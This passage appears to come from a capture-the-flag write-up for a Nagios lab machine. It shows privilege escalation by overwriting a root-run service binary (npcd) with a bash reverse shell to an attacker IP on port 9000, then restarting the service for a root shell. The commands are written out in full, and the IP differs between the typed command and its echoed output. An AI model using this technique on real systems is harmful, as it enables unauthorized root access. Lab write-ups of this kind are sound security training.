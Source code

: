 As we can see, the `npcd.service` calls `/usr/share/nagios/bin/npcd` when running. But we also have write privileges on this directory and in the file:

```bash
nagios@monitored:~$ ls -la /usr/local/nagios/bin
ls -la /usr/local/nagios/bin
total 2192
drwxr-xr-x 2 nagios nagios    4096 Nov  9 10:43 .
drwxr-xr-x 8 root   root      4096 Nov  9 10:40 ..
-rwxrwxr-- 1 nagios nagios  717648 Nov  9 10:40 nagios
-rwxrwxr-- 1 nagios nagios   43648 Nov  9 10:40 nagiostats
-rwxrwxr-- 1 nagios nagios 1043688 Nov  9 10:42 ndo.so
-rwxr-xr-x 1 root   root      1083 Nov  9 10:42 ndo-startup-hash.sh
-rwxr-xr-- 1 nagios nagios   31584 Nov  9 10:42 npcd
-rwxr-xr-- 1 nagios nagios   14552 Nov  9 10:42 npcdmod.o
-rwxr-xr-x 1 root   root    215488 Nov  9 10:43 nrpe
-rwxr-xr-x 1 root   root     10661 Nov  9 10:43 nrpe-uninstall
-rwxr-xr-x 1 root   root    142920 Nov  9 10:43 nsca
```

This means that we could erase the contents of `npcd` binary and replace it with a reverse shell. If this succeeds, we might get root.


## [](#solving) Step 4 - Privilege escalation

Let's try it out! First, we need to stop the service in order to be able to alter the file's content:

```bash
nagios@monitored:/usr/local/nagios/bin$ sudo /usr/local/nagiosxi/scripts/manage_services.sh stop npcd
<local/nagiosxi/scripts/manage_services.sh stop npcd
nagios@monitored:/usr/local/nagios/bin$ echo "" > npcd
echo "" > npcd
nagios@monitored:/usr/local/nagios/bin$ echo '#!/bin/bash' > npcd
echo '#!/bin/bash' > npcd
nagios@monitored:/usr/local/nagios/bin$ echo "bash -c 'bash -i >& /dev/tcp/10.10.14.200/9000 0>&1'" >> npcd
<ash -i >& /dev/tcp/10.10.10.10/9000 0>&1'" >> npcd
nagios@monitored:/usr/local/nagios/bin$ cat npcd
cat npcd
#!/bin/bash
bash -c 'bash -i >& /dev/tcp/10.10.10.10/9000 0>&1'
```

We successfully overwritten the npcd binary. Now, we start another netcat on port 9000 and start the service back again with `sudo /usr/local/nagiosxi/scripts/manage_services.sh start npcd` to get the root shell:

<img src="../figs/monitored11.png" alt="root-shell">
